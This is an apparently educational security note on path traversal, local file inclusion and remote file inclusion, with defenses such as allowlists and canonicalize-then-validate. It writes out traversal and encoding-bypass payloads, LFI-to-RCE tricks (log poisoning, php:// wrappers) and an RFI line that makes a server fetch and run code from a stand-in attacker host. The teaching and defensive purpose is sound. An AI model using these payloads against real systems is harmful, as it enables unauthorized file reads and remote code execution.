

# 📂 File Inclusion & Path Traversal

> [!warning] Authorized simulation only
> These attacks read or execute files outside the intended directory. Prove the boundary crossing with a benign canary or a harmless system file, never sensitive data. Test only in-scope applications you build or are authorized to assess.

## Parent Learning Order
File Inclusion & Path Traversal -> File Upload Security Testing -> Insecure Deserialization Testing -> XML External Entity Testing

## When a Filename Is Attacker-Controlled

> *The application strips every `../` from the filename. Can you still escape the directory?*
>
> Hold your answer — the section below is the response.

Web applications constantly turn user input into file paths — `?page=about` loads `about.html`, `?lang=en` includes `lang/en.php`. When that input is not properly constrained, three closely-related flaws appear, all from the same root cause: **an attacker-controlled value reaches a file operation**.

| Flaw | What the attacker controls | Result |
| --- | --- | --- |
| **Path Traversal** | A path with `../` to escape the intended directory | Read files outside the web root |
| **Local File Inclusion (LFI)** | A path to a *local* file the app then *includes/executes* | Read, or execute, local files |
| **Remote File Inclusion (RFI)** | A *URL* the app fetches and includes | Execute attacker-hosted code |

They form a severity ladder: traversal *reads* a file, LFI can *execute* a local file (turning file read into code execution via clever tricks), and RFI directly executes *remote* attacker code. All three are one mechanism — untrusted input in a file path — which is why they belong in one note, not three.

> [!tip] The analogy, and where it breaks
> Path traversal is like a hotel keycard that opens your room (`/guest/room-204`) but, because the lock only checks the suffix, also opens the manager's office if you write `../../manager` on it. The analogy breaks at inclusion: a keycard only *opens* a door, whereas LFI/RFI make the building *act on* whatever is behind the door — reading it aloud, or worse, *executing its instructions* — which is how a file-read becomes code execution.

**Prerequisites:** the Linux/Windows filesystem hierarchy, HTTP parameters, and URL encoding.

## Path Traversal: Escaping the Directory

The `../` sequence means "parent directory." An app that builds `files/ + user_input` and reads the result can be escaped:

```text
intended:  files/report.pdf
attack:    files/../../../../etc/passwd   ->  /etc/passwd
```

Each `../` climbs one level; enough of them reach the filesystem root, then descend to any file the web process can read. The proof is reading a *harmless* system file (`/etc/hostname`) — enough to demonstrate the boundary is crossed, without touching sensitive data.

The variant neighborhood matters enormously (from the retest leaf): a naive filter blocking `../` is bypassed by URL-encoding (`..%2f`), double-encoding (`..%252f`), or overlong sequences (`....//`). A "fixed" traversal must be retested against all of these.

**The deliberate break:** "we strip `../` from the input, so traversal is blocked." It is the most common fix and one of the least effective, because stripping is not the same operation as **normalising**.

A single-pass strip is a filter that runs once; path resolution runs afterwards and follows completely different rules. `....//` survives one removal pass and becomes `../` in the leftovers. `%2e%2e%2f` is not `../` when the check reads it and is by the time the filesystem does, because decoding happened in between. Absolute paths sidestep traversal entirely — no `../` required. And a null byte or an appended extension can end the string somewhere the validator did not expect. In every case the validator read a **string** and the filesystem resolved a **path**, and those are different languages.

**This is the Parser Differential pattern.**

**The Twin — compare this with SQL Injection.** A `../` in a filename and a `'` in a search box look like different problems and get different remediation advice. They are the same failure: a component inspected the value as text, and a second component — the filesystem resolver, the SQL parser — interpreted the same characters as structure. Notice that both "fixes by escaping" fail for the same reason, and both real fixes have the same shape: stop passing the value into a place where it can become structure. Parameterise the query; resolve the path and confirm it is inside the permitted directory.

**How you'd spot it:** the response differs between a path that exists and one that does not — a different error, a different length, a different timing — even when no file content is returned. That difference is a file-existence oracle, and it confirms your input reached the resolver.

## LFI: From Reading to Executing

LFI is traversal into a context where the file is *included* (executed), most classically in PHP's `include($_GET['page'])`. Reading `/etc/passwd` proves the flaw, but the escalation to code execution is what makes LFI severe:

- **Log poisoning** — inject PHP into a log file (via a crafted User-Agent), then LFI-include the log, executing the injected code.
- **Wrappers** — `php://filter` reads source code (leaking secrets), `data://` and `php://input` can execute supplied code.
- **Session files** — include a session file whose contents you control.

The lesson: LFI is not just "read a file," it is "read a file *and the app runs it*," which is why the LFI-to-RCE chain is a top web severity.

## RFI: Executing Remote Code Directly

RFI is the most severe: the app fetches a *URL* the attacker supplies and executes it. `?page=http://evil.example/shell.txt` makes the server download and run the attacker's code — immediate remote code execution. It requires a permissive configuration (PHP's `allow_url_include`, now off by default), which is why RFI is rarer today, but where present it is instant compromise.



## Choosing the most benign file that proves the crossing

- **Proving with sensitive data.** Reading `/etc/passwd` is traditional but `/etc/hostname` proves the same boundary crossing without exposing user hashes. Use the most benign file that demonstrates the flaw.
- **Filter bypass variants.** A block on `../` is defeated by encoding — always test `..%2f`, `..%252f`, `....//`, and absolute paths. Concluding "fixed" from the literal payload failing is the classic retest error.
- **Null-byte and extension tricks** (legacy) — older platforms truncated at `%00` or appended extensions; know the platform to know which apply.
- **Read vs. execute context.** Whether a traversal is "just" file-read or escalates to RCE depends on whether the file is included/executed — classify correctly, as the severity differs enormously.
- **Windows vs. Unix paths.** `../` vs `..\`, drive letters, and UNC paths differ — match the payload to the server OS.

## Security Implications — Detection & Defense

- **Never build file paths from user input.** The definitive fix is to *not* pass untrusted input to file operations — use an allowlist mapping (`page=about` → a fixed dictionary of allowed files), not concatenation.
- **Canonicalize then validate.** If a path must be built, resolve it to its absolute canonical form *first*, then verify it stays within the intended base directory — decoding before checking (the retest-leaf lesson) closes the encoding-bypass class.
- **Disable dangerous inclusion features:** `allow_url_include` off (kills RFI), restrict wrappers, and run the web process with least filesystem privilege so even a successful read reaches little.
- **Detection** looks for `../`, encoded traversal, and `php://`/`http://` in file parameters — a WAF signature, though canonicalization at the app is the real fix.
- **Least privilege limits blast radius:** a web process that cannot read `/etc/shadow` or write to log directories contains both the read and the LFI-to-RCE escalation.

## Summary

You should now be able to:

- Explain how attacker-controlled input in a file path causes traversal/LFI/RFI, and the severity ladder between reading and executing.
- Prove path traversal with a benign canary, test encoding-bypass variants, and classify whether a flaw is read-only or escalates to RCE via inclusion.
- Explain why allowlist mapping (not concatenation) and canonicalize-then-validate are the definitive fixes, why decoding order matters, and how least privilege contains the LFI-to-RCE escalation.

---
> 🔼 Up: [[File, Parser & Serialization Security]]
